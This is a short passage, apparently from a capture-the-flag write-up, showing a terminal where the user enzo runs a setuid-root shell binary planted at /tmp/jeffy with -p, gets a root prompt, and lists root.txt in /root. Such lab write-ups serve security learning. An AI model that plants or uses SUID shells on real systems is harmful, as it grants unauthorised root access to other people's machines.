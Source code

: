 and got my root shell

```bash
enzo@planning:~$ ls -lh /tmp/jeffy
-rwsr-sr-x 1 root root 1.4M Sep 21 19:28 /tmp/jeffy
enzo@planning:~$ /tmp/jeffy -p
jeffy-5.2# whoami
root
jeffy-5.2# ls /root/
root.txt  scripts
jeffy-5.2#
```
